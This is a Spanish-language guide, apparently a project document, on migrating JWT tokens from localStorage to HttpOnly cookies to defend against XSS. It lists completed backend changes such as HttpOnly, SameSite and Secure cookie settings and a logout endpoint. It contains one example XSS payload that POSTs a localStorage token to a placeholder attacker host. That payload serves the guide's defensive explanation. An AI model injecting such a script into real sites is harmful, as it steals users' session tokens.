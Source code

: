 # 🔐 Migración de Tokens a Cookies HttpOnly

## 📋 Qué es y Por Qué es Importante

### El Problema: Tokens en localStorage (Vulnerabilidad HIGH)

**localStorage es vulnerable a XSS (Cross-Site Scripting):**

```javascript
// ❌ VULNERABLE - Cualquier script puede leer esto
const token = localStorage.getItem('token');

// 🚨 Un atacante con XSS puede hacer:
<script>
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: localStorage.getItem('token')
  });
</script>
```

Si un atacante logra inyectar JavaScript (por ejemplo, a través de un comentario no sanitizado, un campo de texto comprometido, o una dependencia maliciosa), puede **robar todos los tokens JWT de todos los usuarios**.

### La Solución: Cookies HttpOnly

Las **cookies HttpOnly** son cookies que:
- ✅ **NO** son accesibles desde JavaScript (`document.cookie` no las muestra)
- ✅ Se envían **automáticamente** con cada request al servidor
- ✅ Solo el servidor puede leer y modificar estas cookies
- ✅ Protegen contra XSS (el atacante no puede leer el token)

```javascript
// ✅ SEGURO - JavaScript NO puede leer esta cookie
// El navegador la envía automáticamente con cada request
// Incluso con XSS, el atacante no puede robar el token
```

---

## ✅ Estado Actual de la Implementación

### Backend: ✅ COMPLETO

El backend ahora:

1. ✅ **Envía tokens como cookies HttpOnly** en el login
2. ✅ **Lee tokens de cookies primero** (más seguro)
3. ✅ **Mantiene soporte para Authorization header** (compatibilidad)
4. ✅ **Endpoint de logout** para limpiar cookies
5. ✅ **Configuración segura** con SameSite y Secure
